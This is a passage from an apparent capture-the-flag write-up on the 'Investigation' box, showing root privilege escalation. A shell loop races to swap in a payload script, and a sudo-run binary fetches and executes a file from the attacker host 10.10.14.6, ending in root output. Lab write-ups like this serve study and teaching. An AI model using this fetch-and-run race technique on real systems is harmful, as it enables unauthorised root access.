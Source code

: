 
    #!/bin/bash

    id
    echo "pwned"



Now I'll get two shells on Investigation. In the first, I'll run an
infinite loop:



    smorton@investigation:~$ while :; do if [ -f lDnxUysaQn ]; then mv -f lDnxUysaQn garbage ; cp -f 0xdf.sh lDnxUysaQn; sleep 1; rm lDnxUysaQn; fi; done



This checks for the existence of `lDnxUysaQn`, and if it's there, moves
it to `garbage` and copies `0xdf.sh` over it. Then it sleeps for a
second and removes the file.

Now when I run `binary`, it doesn't matter what's in the file, but it
has to exist (so that `curl` returns success and the file is executed).
When I run this:



    smorton@investigation:~$ sudo binary 10.10.14.6/race lDnxUysaQn
    Running... 
    uid=0(root) gid=0(root) groups=0(root)
    pwned



It may not trigger every time, but it was most for me. Because it's
waiting for the file to appear, the timing works out that it moves it
just at the right time.





